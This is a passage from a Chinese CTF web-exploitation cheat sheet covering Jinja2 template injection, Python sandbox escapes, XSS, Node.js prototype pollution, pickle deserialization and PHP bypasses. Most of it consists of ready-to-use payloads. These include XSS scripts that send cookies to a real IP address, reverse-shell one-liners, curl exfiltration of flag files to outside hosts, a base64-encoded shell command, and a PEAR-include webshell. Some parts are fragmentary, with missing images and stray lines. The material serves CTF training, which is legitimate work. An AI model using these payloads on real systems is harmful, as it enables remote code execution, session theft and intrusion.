`<class '_frozen_importlib_external.FileLoader'>`

`subprocess.Popen`

使用：{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}

```

```jinja
查找脚本
import requests

url = 'http://c77cb43a-a5f0-44dd-bc75-7e531b6a69e5.node4.buuoj.cn:81'
for i in range(1, 100):
    payload = "/?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "].__init__['__glo'+'bals__']}}"
    newurl = url + payload
    res = requests.get(url=newurl + payload)
    if 'builtins' in res.text:
        print(newurl)
    else:
        pass

```

`利用{{''.__class__.__mro__[2].__subclasses__()[76].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}`

过滤单双引号

?a=os&b=popen&c=cat /flag&name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}

过滤了args，换其他参数传值即可

Args->cookie

过滤[]

?name={{url_for.__globals__.os.popen(request.cookies.a).read()}} Cookie:a=cat /flag

过滤了下划线，我们可以使用attr方法，request|attr(request.cookies.a)等价于request[“a”]?

name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}

a=__globals__;b=cat /f*

__绕过

"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"

使用get传参，构造参数：

{{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5)}}

Cookie=x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__('os').popen('cat /flag').read()

.过滤

""|attr("__class__")

相当于

"".__class__

过滤.{{,__,

txt.galf_eht_si_siht/ tac'[::-1]) 反方向绕过

Cookie:a=__globals__;b=cat /flag

过滤{{



过滤popen

q=[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('cat main.py').read()

 过滤了 空格 _ [ ] ' " . pop class request

### 十六进制

```jinja
{%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}

```

```jinja
 username={%%0cset%0czero%0c=%0c(self|int)%0c%}{%%0cset%0cone%0c=%0c(zero**zero)|int%0c%}{%%0cset%0ctwo%0c=%0c(zero-one-one)|abs%0c%}{%%0cset%0cfour%0c=%0c(two*two)|int%0c%}{%%0cset%0cfive%0c=%0c(two*two*two)-one-one-one%0c%}{%%0cset%0cthree%0c=%0cfive-one-one%0c%}{%%0cset%0cnine%0c=%0c(two*two*two*two-five-one-one)%0c%}{%%0cset%0cseven%0c=%0c(zero-one-one-five)|abs%0c%}{%%0cset%0cspace%0c=%0cself|string|min%0c%}{%%0cset%0cpoint%0c=%0cself|float|string|min%0c%}{%%0cset%0cc%0c=%0cdict(c=aa)|reverse|first%0c%}{%%0cset%0cbfh%0c=%0cself|string|urlencode|first%0c%}{%%0cset%0cbfhc%0c=%0cbfh~c%0c%}{%%0cset%0cslas%0c=%0cbfhc%((four~seven)|int)%0c%}{%%0cset%0cyin%0c=%0cbfhc%((three~nine)|int)%0c%}{%%0cset%0cxhx%0c=%0cbfhc%((nine~five)|int)%0c%}{%%0cset%0cright%0c=%0cbfhc%((four~one)|int)%0c%}{%%0cset%0cleft%0c=%0cbfhc%((four~zero)|int)%0c%}{%%0cset%0cbut%0c=%0cdict(buil=aa,tins=dd)|join%0c%}{%%0cset%0cimp%0c=%0cdict(imp=aa,ort=dd)|join%0c%}{%%0cset%0cpon%0c=%0cdict(po=aa,pen=dd)|join%0c%}{%%0cset%0cso%0c=%0cdict(o=aa,s=dd)|join%0c%}{%%0cset%0cca%0c=%0cdict(ca=aa,t=dd)|join%0c%}{%%0cset%0cls%0c=%0cdict(ls=x)|join%0c%}{%%0cset%0cev%0c=%0cdict(ev=aa,al=dd)|join%0c%}{%%0cset%0cred%0c=%0cdict(re=aa,ad=dd)|join%0c%}{%%0cset%0cbul%0c=%0cxhx~xhx~but~xhx~xhx%0c%}{%%0cset%0cini%0c=%0cdict(ini=aa,t=bb)|join%0c%}{%%0cset%0cglo%0c=%0cdict(glo=aa,bals=bb)|join%0c%}{%%0cset%0citm%0c=%0cdict(ite=aa,ms=bb)|join%0c%}{%%0cset%0cpld%0c=%0cxhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~(dict(flag=1)|join)~yin~right~point~red~left~right%0c%}{%%0cfor%0cf,v%0cin%0c(self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))()%0c%}{%%0cif%0cf%0c==%0cbul%0c%}{%%0cfor%0ca,b%0cin%0c(v|attr(itm))()%0c%}{%%0cif%0ca%0c==%0cev%0c%}{{b(pld)}}{%%0cendif%0c%}{%%0cendfor%0c%}{%%0cendif%0c%}{%%0cendfor%0c%}&password=2312

```

```jinja
# _
config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)
# 空格
config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)
# /
config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)

# __class__
(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(cla=aa,ss=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2

# config.__class__.__init__.__globals__
config|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(cla=aa,ss=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(in=aa,it=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(glo=aa,bals=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)

#config.__class__.__init__.__globals__['os'].popen('cat /flag').read()
config|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(cla=aa,ss=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(in=aa,it=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(glo=aa,bals=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(geti=aa,tem=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)(dict(o=aa,s=bb)|join())|attr(dict(po=aa,pen=bb)|join())(dict(c=aa,at=bb)|join()+config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)+config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)+dict(fl=aa,ag=bb)|join())|attr(dict(re=aa,ad=bb)|join())()

/**
* 复制并使用代码请注明引用出处哦~
* Lazzaro @ https://lazzzaro.github.io
*/

```

无回显sstl堆区

/hack?klf={{config.__class__.__init__.__globals__['os'].popen('tac /f*').read()}读取

/hack?klf={{config.__class__.__init__.__globals__['os'].popen('curl 120.46.41.173:9023').read()}}

/hack?klf={{config.__class__.__init__.__globals__['os'].popen('curl 120.46.41.173:9023/`ls /app/f*`').read()}}

Payload:?name={%set n=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}atao

 黑名单

```jinja


```

```jinja
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}（Unicode编码有回显，这条payload等效于{{””.__class__}}）

url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))%}(等效于{{lipsum.__globals__}}）


                                                                                                     
{%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f%22)(%22\u006f\u0073%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0074\u0078\u0074%22)|attr(%22read%22)())%}

```

 先看"class

### 沙盒逃逸

最普通： __import__("os").system("cat flag")

无参数b和i，单引号，双引号，反引号

getattr(getattr(()class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()

找到()class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('sh')

构造同理

getattr(getattr(getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()[-4],chr(95)+chr(95)+chr(105)+chr(110)+chr(105)+chr(116)+chr(95)+chr(95)),chr(95)+chr(95)+chr(103)+chr(108)+chr(111)+chr(98)+chr(97)+chr(108)+chr(115)+chr(95)+chr(95))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(115)+chr(104))

_利用


过滤方括号https://miaotony.xyz/2021/11/30/CTF_2021NCTF/

```python
from os import system
n = {}.__doc__
l = lambda _: n[69]+n[97]  # ls
f = lambda _: n[2]+n[80]+n[55]+n[6]+n[75]+n[69]+n[80]+n[88]  # cat flag
@system
@f
class x:pass

```

#### 字符长度限制

s<13

eval(input())

然后在执行上面的

 S<7

一开始输入help()，进入到help界面，然后随便找个模块，例如os输入，此时就会显示os模块的帮助页面，输入!sh就能进到shell里面去。

无help（）

breakpoint()

再正常输入

#### globals() 函数

泄露全局变量

Server模块有类似作用

Dir()函数

查看根目录

Dir(my_flag)查看底下类

My_flag.flag1.encode()方法使用

#### Byte 代替 char

Payload = open("flag").read()

open((bytes([102])+bytes([108])+bytes([97])+bytes([103])).decode()).read()

bytes用基类代替

().__class__.__base__.__subclasses__()[6]  --->通过基类使用bytes

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps9.jpg`

().__doc__[1:200]使用

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps10.jpg`

python中存在unicode的注入，所以直接调用level2的payload改下unicode

���val(inp���t())

#### + 绕过方式

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps11.jpg`

().__class__.__base__.__subclasses__()[-4].__init__.__globals__[str().join([().__doc__[19],().__doc__[86],().__doc__[19],().__doc__[4],().__doc__[17],().__doc__[10]])](str().join([().__doc__[19],().__doc__[56]]))

#### _posixsubprocess 绕过

##### 多次输入

__builtins__['__loader__'].load_module('_posixsubprocess')

或：

__loader__.load_module('_posixsubprocess')

import os

__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/sh"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False, None, None, None, -1, None)

交替python和shell运行

##### 单次输入

[os := __import__('os'), itertools := __loader__.load_module('itertools'), _posixsubprocess := __loader__.load_module('_posixsubprocess'), [_posixsubprocess.fork_exec([b"/bin/sh"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False, None, None, None, -1, None) for i in itertools.count(0)]]

### 随机数

##### 输出流重定向

__import__("sys").__stdout__.write(__import__("os").read(__import__("os").open("flag",__import__("os").O_RDONLY)0x114).decode())

int(str(__import__('sys')._getframe(1).f_locals["right_guesser_question_answer"]))

回溯随机数

[random:=__import__('random'), state:=random.getstate(), pre_state:=list(state[1])[:624], random.setstate((3,tuple(pre_state+[0]),None)), random.randint(1, 9999999999999)][-1]

**函数利用**

```python
(lambda:os.system('cat flag'))()

 

class WOOD(type):

__getitem__=os.system

class WHALE(metaclass=WOOD):

pass

tmp = WHALE['sh']

```

 无参数

偏门赛题

php运用原生类eval(“ ”,$ )

action=%5ccreate_function&arg=}system('cat /sec*');//

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps12.jpg`

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps13.jpg`

内网穿透

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps14.jpg`

Zip读取

[https://w0co1yvttngpnhutm4avlaczb.node.game.sycsec.com/include.php?file=zip://upload/1cmd.jpg.zip%23cmd.jpg](https://w0co1yvttngpnhutm4avlaczb.node.game.sycsec.com/include.php?file=zip:/upload/1cmd.jpg.zip%23cmd.jpg)

局部变量替换绕过

 preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps15.jpg`

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps16.jpg`

ctf大赛原题

CTFSHOW大赛原题篇(web680-web695)_ctfshow web680

条件竞争

<?php                                    ?>';

file_put_contents('1.php',$a); ?>

---

## 🕸️ 十九、XSS 专题

> [!summary] 速览
> - 过滤 `img` → 用 `<script>document.location.href="...cookie="+document.cookie</script>`
> - 过滤 `script` → 用 `<body onload=...>`
> - 过滤空格 → `<body/onload=...>`
> - 归纳：`window.open(...)` 等多种外带写法，统一把 cookie 打到 VPS

### 过滤 img

<script>document.location.href="http://47.99.125.16/receive.php?cookie="+document.cookie</script>

### 过滤 script

<body onload="document.location.href='http://47.99.125.16/receive.php?cookie='+document.cookie"></body>

过滤空格

\<body/onload=document.location='http://47.99.125.16/receive.php?cookie='+document.cookie;>

归纳

```js
<script>window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)</script>

<script>var img = document.createElement("img");img.src = "http://47.99.125.16/receive.php?cookie=?cookie="+document.cookie;</script>

<script>window.location.href='http://47.99.125.16/receive.php?cookie='+document.cookie</script>

<script>location.href='http://47.99.125.16/receive.php?cookie='+document.cookie</script>

<input onfocus="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)" autofocus>

<svg onload="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)">

<iframe onload="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)"></iframe>

<body onload="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)">
读全网页
var img = new Image();
img.src = "http://47.99.125.16/receive.php?cookie="+document.querySelector('#top > div.layui-container').textContent;
document.body.append(img);

```

---

## 🟩 二十、Node.js 题目

> [!summary] 速览
> - `eval` 内直接 `require('child_process').execSync('ls /').toString()`
> - 拼接陷阱：`5+[6,6]` → `56,6`，`['a']+flag === 'a'+flag`，于是 `md5(['a']+flag) === md5('a'+flag)`
> - 长度限制绕过：`{"checkcode":[1,1,1,...]}` 用数组异常
> - **原型链污染**：`{"__proto__":{"ctfshow":"36dboy"}}`；`__proto__` 被过滤用 `constructor.prototype`
> - 升级 RCE：`{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('...')"}}`、ejs 的 `outputFunctionName`

### 1. eval 内的利用

```js
require('child_process').execSync('ls /').toString()

require( 'child_process' ).spawnSync( 'ls', [ '/' ] ).stdout.toString()

global.process.mainModule.constructor._load('child_process').execSync('ls',
['.']).toString()

```
### 2. Node.js 中的拼接问题

```js
console.log(5+[6,6]); //56,6
console.log("5"+6); //56
console.log("5"+[6,6]); //56,6
console.log("5"+["6","6"]); //56,6

```
所以：像['a']+flag==='a'+flag这样的，比如flag是flag{345}，那么最后得到的都是aflag[345}，因此这个也肯定成立：md5(['a']+flag)===md5('a'+flag)，同时也满足a!==b：

因此还可以构造：

`?a[a]=1&b[b]=1`

### 3. 长度限制与数组异常绕过


`{"checkcode":[1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1]}`

### 原型链污染

[启蒙文章](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript)

<details>
  <summary>点击展开代码块</summary>

```js
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar)

// 修改foo的原型（即Object）
foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1
console.log(foo.bar)

// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar
console.log(zoo.bar)

```
</details>
最后，虽然zoo是一个空对象{}，但zoo.bar的结果居然是2，原因也显而易见：因为前面我们修改了foo的原型foo.__proto__.bar = 2，而foo是一个Object类的实例，所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2。

后来，我们又用Object类创建了一个zoo对象let zoo = {}，zoo对象自然也有一个bar属性了。

那么，在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是原型链污染。
要用json格式

#### 普通变量相等绕过
`{"__proto__":{"ctfshow":"36dboy"}}`

### eval 函数

```js
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()
/?eval=__filename
/?eval=require('fs').readFileSync('/app/routes/index.js','utf-8')         //过滤exec|load
/?eval=require('child_process')['exe'+'cSync']('ls').toString()           //+号绕过

```

#### 升级 RCE 绕过
`{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('curl -F flag=@/flag.txt https://webhook.site/be0307c8-2fe5-4f34-b561-05a24590b99f')"}}
`

#### 函数套函数
`{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/47.99.125.16/3389 0>&1\"')"}}}`

#### ejs 模板 RCE
`{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/47.99.125.16/3389 0>&1\"');var __tmp2"}}}`

```js
{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('echo YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMTIuMTI0LjM5LjExOC8yMzMzIDA%2BJjEi|base64 -d|bash');var __tmp2"}

```

```js
{
    "__proto__": {
        "client": true,
        "escapeFunction": "1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');",
        "compileDebug": true
    }
}

```

滤了__proto__，我们可以用constructor.prototype代替

```js
{"constructor.prototype.outputFunctionName":
"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}

{"constructor.prototype.outputFunctionName": "_tmp1;global.process.mainModule.require('child_process').exec('bash -c \\"bash -i >& /dev/tcp/xxx/4444 0>&1\\"');var __tmp2"}

```

[例题](https://xz.aliyun.com/t/7184?time__1311=n4%2BxnD0GDtKx9lFD%2FiT4BKeAI6njE6joD#toc-11)

[ctfshow](https://blog.csdn.net/m0_74456293/article/details/130184074?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170556467916800226512158%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=170556467916800226512158&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-130184074-null-null.142^v99^pc_search_result_base7&utm_term=ctfshow%20nodejs&spm=1018.2226.3001.4187)

---

## 🧷 二十一、其他小专题

> [!summary] 速览
> - **PEAR 包含**：`?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[1]);?>+/var/www/html/a.php`
> - **ssh 打 php-fpm**：`python2 gopherus.py --exploit fastcgi`
> - **非法传参名**：PHP < 8 时参数里的 `[` 会转成 `_`，但转换出错后后面的非法字符不再转换 → `show[show.show` 绕过

> [!warning] 前提条件
> PEAR 包含要同时满足：装了 pear、开启了 `register_argc_argv`、且 `include $_GET['f']`（哪怕是 `include $_GET['f'].php`）的参数可控。
> 别照抄：前面是 `pearcmd.php` 这个被包含的文件，后面才是要传的参数。

### PEAR 包含
安装了pear

开启了registerargcargv

存在可控的include $_GET['f'](即使是include $_GET['f'].php)

?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[1]);?>+/var/www/html/a.php

1=system(‘ls’);用burp放  如果用hackbar放会把<>url编码

不要照搬，前面是include（pearcmd.php）这个函数，后面是放入参数。

?file=/usr/local/lib/php/pearcmd.php&lalala+install±R+/var/www/html/+[http](https://so.csdn.net/so/search?q=http&spm=1001.2101.3001.7020)://vps-ip/shell.php

### ssh 打 php-fpm（FastCGI）

python2 gopherus.py --exploit fastcgi

### 函数使用

### 非法传参名

当PHP版本小于8时，如果参数中出现中括号[，中括号会被转换成下划线_，但是会出现转换错误导致接下来如果该参数名中还有非法字符并不会继续转换成下划线_，也就是说如果中括号[出现在前面，那么中括号[还是会被转换成下划线_，但是因为出错导致接下来的非法字符并不会被转换成下划线_

$_GET['show_show.show']

show[show.show

 例题1：


传参1%2B1>2

---

## 🐍 二十二、Python 用法

> [!summary] 速览
> - 脚本模板：正则从页面提取计算式 → 计算 → 回填答案（配合 `requests` / `re` / `math`）

1.正则提取计算

```python
import math

import requests
import re
url = 'http://82.157.146.43:14709/'
payload = {
    "input": "123",
    "ans": "12"
}
math=''
res = requests.post(url, payload)
num_pattern = re.compile(r'<div style="display:inline;">(.*?)</div>')
num = num_pattern.findall(res.text)  # 正则提取公式
payload="9223372036854775807"+'+'+math.join(num)[0:-1]
print(payload)

```

---

## 🥒 二十三、Pickle 反序列化

> [!summary] 速览
> - 常规：`__reduce__` 返回 `(commands.getoutput, ('ls /',))` 或 `subprocess.call`，再 `pickle.dumps` + `urllib.quote`
> - 手写 opcode：`c` 引入模块、`S` 压字符串、`t/R` 组元组并调用、`g` / `p` 用 memo、`o` / `b` 走 `__setstate__`
> - builtins 链：`getattr(dict,'get')` → `globals()` → 取 `__builtins__` → `eval` 执行任意代码
> - 敏感字符 bypass：`R` 指令绕过、`map/filter`、`bytes/tuple`、`__setstate__` + `os.system`

https://xz.aliyun.com/t/11807?time__1311=mqmx0DBD90qWqGNqeeqBImcr%3Dt0QDnBgoD&alichlgref=https%3A%2F%2Fwww.bing.com%2F

常用payload

 return (commands.getoutput,('ls /',))

常规

```python
import pickle
import urllib
import commands

class payload(object):
    def __reduce__(self):
        return (commands.getoutput,('ls /',))

a = payload()
print urllib.quote(pickle.dumps(a))

```

```python
import pickle
import base64

class GetShellWithPython(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['python',
                  '-c',
                  'import os;'
                  'os.system("curl http://49.232.224.59:3389?a=`cat /flag`");'],))

pickleData = pickle.dumps(GetShellWithPython())
pickle.loads(pickleData)
print(base64.b64encode(pickleData))

```

 pickle的构造大致分成两种：

1.自己手写

```text
cos
system #引入 os 模块的 system 方法，这里实际上是一步将函数添加到 stack 的操作
(S'ls /' # 把当前 stack 存到 metastack，清空 stack，再将 'ls' 压入 stack
tR. # t 也就是将 stack 中的值弹出并转为 tuple，把 metastack 还原到 stack，再将 tuple 压入 stack
    # R 的内容就成为了 system(*('ls /',)) ，然后 . 代表结束，返回当前栈顶元素
<=> __import__('os').system(*('ls /',))

```

实现成功


2.利用 pickle 的 `__reduce__` 可以直接用它的操作模式实现我们上面手搓的 `__import__('os').system(*('ls',))` 的构造。（ 缺点：只能执行单一的函数，很难构造复杂的操作 ）

成功


现在ctf的比赛都在变难，所以最基本的pick序列化可能不怎么够用了，所以大多要第一种需要绕过默写特定指令

只能用内置builtins

```python
opcode=b'''cbuiltins
getattr
p0                    #取到 getattr
(cbuiltins
dict
S'get'
tRp1
cbuiltins
globals
)Rp2                  # getattr(dict, 'get')
00g1
(g2
S'__builtins__'       # get(__import__('builtins').globals(), '__builtins__')
tRp3
0g0
(g3
S'eval'
tR(S'__import__("os").system("calc")'    # 取到 eval 然后实现 RCE
tR.
'''

```

```python
opcode = b'''cbuiltins
getattr         # 使用c，获取 getattr 这个可执行对象
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1            # 用dict.get来从globals的结果中拿到上下文里的builtins对象，并将这个对象放置在memo[1]
cbuiltins
getattr
(g1
S'eval'         # 利用得到的 builtins 对象调用 getattr('builtins', 'eval')
tR(S'__import__("os").system("calc")' 写入 eval 的参数
tR.
'''

```

R指令绕过

```python
import pickle

class Person:
    def __init__(self,age):
        self.age=age

opcode=b'''(c__main__
Person
I18
o}(S"__setstate__"
cos
system
ubS"calc"
b.'''

p=pickle.loads(opcode)

```

python内置函数 可绕i，b，R，o

```python
import pickle
opcode=b'''c__builtin__
map //filter
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
bytes //tuple
p4
(g3
t\x81.'''

pickle.loads(opcode)

```

过滤R_reduce

```python
import base64
a='''V__setstate__
(S"bash -c 'bash -i >& /dev/tcp/47.99.125.16/3389 0>&1'"
ios
system
.'''
print(base64.b64encode(a.encode()))

```

### 敏感字符 bypass

#### S 操作码

`S` 操作码本身是 String ，是支持十六进制的识别的

```text
S'flag' => S'\x66\x6c\x61\x67'

```

```text
S'flag' => V'\u0066\u006C\u0061\u0067'

```

```text
不用单引号-0(V\u0077\u0068\u006f\u0061\u006d\u0069

```

用原本函数

```python
b'''(cconfig
backdoor
(S'__import__("os").popen("cat /flag.txt").read()'
lo.'''

/**
* 复制并使用代码请注明引用出处哦~
* Lazzaro @ https://lazzzaro.github.io
*/

```


---

## 🛠️ 二十四、PHP 题目

> [!summary] 速览
> - **变量覆盖**：`foreach($_POST as $k=>$v) $$k=$v;` / `foreach($_GET as $k=>$v) $$k=$$v;`
> - `isset` 用 `&&` 连接时 POST 可以不传，直接 `?c=flag&flag=c` 完成 `$c=$flag`、`$flag=$c`
> - **disable_functions 绕过**：蚁剑上传木马、`load_file`、FFL 绕过（`FFI::cdef` + `__serialize()[...]->system()`）
> - **伪协议**：`php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8/convert.base64-decode/resource=`
> - 心得：`preg_match` 过滤什么，留下的就是你该用的漏洞；`eval` 过滤括号就改用 `include` / `require` / `echo`
> - **POP 链**：private 属性 `\00类名\00属性`（+2）、protected 属性 `\00*\00属性`（+3）；原生类 `DirectoryIterator('glob:///f*')`、`SplFileObject('/flag')`
> - phar：生成后用 010 改属性数量绕 `__wakeup`，压缩后需重算签名（python 重写 sha1）



> [!danger] `disable_functions` 绕过属于高风险操作
> 仅在**已获授权**的靶场 / 测试环境使用；蚁剑、FFL、`load_file` 三条路按题目环境选，能通的往往只有一条。

### 常见绕过

> ```php
> foreach ($_POST as $key => $value) {
>   $$key = $value;
> }
> 
> foreach ($_GET as $key => $value) {
>   $$key = $$value;
> }

> ```
>
>

需要get一个flag和post一个flag。然后看了眼函数，其中foreach加上。所以我看了wp，想起来POST是可以不用传的。因为isset那里面是&&连接。所以直接get传参一个flag。

先c=flag然后让flag=c。这样被解析之后，就是$c=$flag&$flag=$c。从而达到真正输出flag的作用。而不会用一个变量c把$flag=flag{xxxxxx}给覆盖。那么最后echo出来的就是$flag。payload：

?c=flag&flag=c

### disable 绕过

1.蚁剑绕过，通过上传木马

`file_get_content('$_POST['cmd']'));`

2.load_file绕过

3.FFL绕过

https://blog.csdn.net/fmyyy1/article/details/116998001

```php
a=unserialize(base64_decode('QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319'))->__serialize()['ret']->system('cat /flag>/var/www/html/1.txt');

```

### PHP 伪协议

```text
php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8/convert.base64-decode/resource=

```

php://filter/write=convert.quoted-printable-decode/resource=

### 心得

1.preg_math过滤什么留下的就是使用的漏洞

2.eval过滤括号（，就用不用括号的，常见的有**include、require、echo**等，

### POP 链条构造

private\00类名\00属性 +2

protect \00*\00属性 +3

如果是在php7.1版本以上的
对传入的属性要求不高

```php
$token = serialize(['user' => 'user', 'pass' => 'pass']);
echo $token;

```

原生类

DirectoryIterator可以配合glob://协议使用模式匹配来寻找需要的文件

```php
echo(new+DirectoryIterator('glob:///f*'));

```

SplFileObject可以读取文件

SplFileObject(/flag)

include函数

常用伪协议php:filter-->文件名已知

data://text/plain,<?php?>这段代码，对前面的内容或者后缀名是没有要求的，可以直接修改为其他后缀。

只要将phar文件使用 gzip 命令进行压缩,这段代码就会消失。

